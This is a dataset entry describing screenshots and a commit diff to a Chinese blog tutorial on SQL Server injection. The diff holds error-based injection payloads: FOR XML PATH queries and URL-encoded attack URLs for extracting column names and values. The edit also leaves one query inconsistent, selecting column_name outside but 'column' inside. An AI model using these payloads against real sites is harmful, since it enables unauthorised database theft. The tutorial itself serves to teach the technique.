

Before and after one commit to Fun0nydg/Fun0nydg.github.io, a Jekyll site: the page built from _posts/2021-01-01-SQL-Server-SQL-Injection.md, in a window 1280 px wide and 1400 px high, scrolled down 5803 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 7182 px from its top, so only the background shows below that.

Commit message:
Update 2021-01-01-SQL-Server-SQL-Injection.md

````diff
--- a/_posts/2021-01-01-SQL-Server-SQL-Injection.md
+++ b/_posts/2021-01-01-SQL-Server-SQL-Injection.md
@@ -152,7 +152,7 @@ xxx.com?abc=a%27%0aand%0a1=(SELECT%0aname%2b%27,%27%0aFROM(SELECT%0aname%0afrom%
 
 注字段名的语句，table指的是注出来的表名
 ```html
-select name+',' from (SELECT Name FROM SysColumns WHERE id=Object_Id('table_name'))a FOR XML PATH('')
+select name+',' from (SELECT Name FROM SysColumns WHERE id=Object_Id('table'))a FOR XML PATH('')
 ```
 那么运用到实战:
 ```html
@@ -162,11 +162,11 @@ xxx.com?abc=a%27%0aand%0a1=(select%0aname%2b%27,%27%0afrom%0a(SELECT%0aName%0aFR
 
 接着注字段的值
 ```html
-SELECT column_name+',' FROM(SELECT column_name from 数据库名.dbo.table_name)a FOR  XML PATH('')
+SELECT column_name+',' FROM(SELECT column from 数据库名.dbo.table_name)a FOR  XML PATH('')
 ```
-这里column_name指的是字段名,table_name指的是表名，如果不指定数据库名就会查当前数据库
+这里column指的是字段名,table指的是表名，如果不指定数据库名就会查当前数据库
 运用到实战
 ```html
-xxx.com?abc=a%27%0aand%0a1=(SELECT%0atop%0a5%0acolumn_name%2b%27,%27%0aFROM(SELECT%0acolumn_name%0afrom%0adbo.table_name)a%0aFOR%0a%0aXML%0aPATH(%27%27))%0aand%0a%271%27=%271
+xxx.com?abc=a%27%0aand%0a1=(SELECT%0atop%0a5%0acolumn%2b%27,%27%0aFROM(SELECT%0acolumn%0afrom%0adbo.table)a%0aFOR%0a%0aXML%0aPATH(%27%27))%0aand%0a%271%27=%271
 ```
 成功注出前五条数据
````
